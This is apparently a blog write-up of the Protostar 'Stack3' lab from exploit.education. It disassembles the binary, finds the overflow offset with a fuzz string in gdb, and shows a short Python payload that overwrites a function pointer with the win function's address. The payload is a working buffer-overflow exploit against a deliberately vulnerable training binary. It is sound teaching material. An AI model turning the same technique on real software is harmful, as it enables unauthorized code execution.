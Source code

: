 ```yaml
---
title: Protostar - Stack 3
date: 2024-02-14 18:32:00
categories: [binary-exploitation, protostar]
tags: [protostar, binary-exploitation, stack3]
---
```


# Conquering Stack3 at Protostar Machine
Hello  , Today is the day I continue on my journey to solve the [Stack3](https://exploit.education/protostar/stack-three/) binary. on [Protostar](https://exploit.education/protostar) machine.

This challenge requiring us to Redirect Execution to call function called `win` defined in the code useing through exploitation of stack based bufferoverflow.

## **Challenge Overview**
- **Challenge Name:** [Stack3](https://exploit.education/protostar/stack-three/)
- **Machine:** [Protostar](https://exploit.education/protostar)


### Step 1: Explore Binary
- let,s run `/opt/protostar/bin/stack3` binary
![Stack3 Explore](/assets/img/protostar/stack3-explore.png)

Hmm there is input ... Hmmm i think i know this function which prompt input XD .. , but iam not sure for now ..

### Step 2: Analysis

disassemble `main` function

```sh
objdump -M intel -d /opt/protostar/bin/stack3 | grep '<main>' -A 20
```
get  address of `win` function

```sh
objdump -M intel -d /opt/protostar/bin/stack3 | grep '<win>'
```
![Stack3 Analysis](/assets/img/protostar/stack3-analysis.png)

1. Function Prologue:
- `push ebp`  Save the base pointer.
- `mov ebp, esp`  Set up a new base pointer.
- `and esp, 0xfffffff0` Align the stack.
- `sub esp, 0x60` Allocate space for local variables.
2. Variables
`mov DWORD PTR [esp+0x5c],0x0` : Assign Local Variable `[esp+0x5c]` at to 0  
3. Function Calls
- `call 0x08048330 gets@plt` call to function `gets` Oh there the function what i think it used for prompt input XD
- `call   8048350 <printf@plt>` call to function `print`
- `call eax`  call to function address at eax`
4. Conditional Check
- `cmp    DWORD PTR [esp+0x5c],0x0` if local variable at `[esp+0x5c]` still equal 0
- `je     8048477 <main+0x3f>` then `jmp` to `0x08048477` which is the end of fucnction and return 

5. Function Pointer : assiegn address of `[esp+0x5c]` if it wasn,t zero to `eax` and then call `eax`
- `mov    eax,DWORD PTR [esp+0x5c]` move function pointer to `eax`
- `call eax` call function pointer

6. `win` Function address is at `0x08048424`

### Step 3: Debugging

1. create fuzz script at `~/fuzz.py` contains:
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"
print(fuzz)
```
2. debug binary with gdb and disassemble main 
3. break point at moveing `cmp [esp+0x1c],0`
4. run binary with stdin from output of running `~/fuzz.py`
5. check fuzz value at pointer `esp+0x1c`

![Stack3 Debug](/assets/img/protostar/stack3-gdb-debug.png)

and we found value at pointer `[esp+0x5c]` `0x51515151` with is `QQQQ` as ascii representation.. Hmmmm Now it will be everything going easy !

![Stack3 Found Offset](/assets/img/protostar/stack3-gdb-found-offset.png)

### Step 4: Crafting Solution

okay let,s update our script: `~/fuzz.py`
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP"
esp_plus_5c="\x24\x84\x04\x08" # represent 0x08048424 on little endian machines. 0x08048424 is address of win function
print(fuzz+esp_plus_5c)
```
- now esp+0x5c will contain `0x08048424` which is  address of win function and it will moved later to `eax` then our program call `eax` which call function pointer `win` 

- and when run program with our script output as stdin for program ,  function `win` will be called ! 

![Stack3 Solved](/assets/img/protostar/stack3-solved.png)

Oh it Works Again !,  Hack the planet XD ..

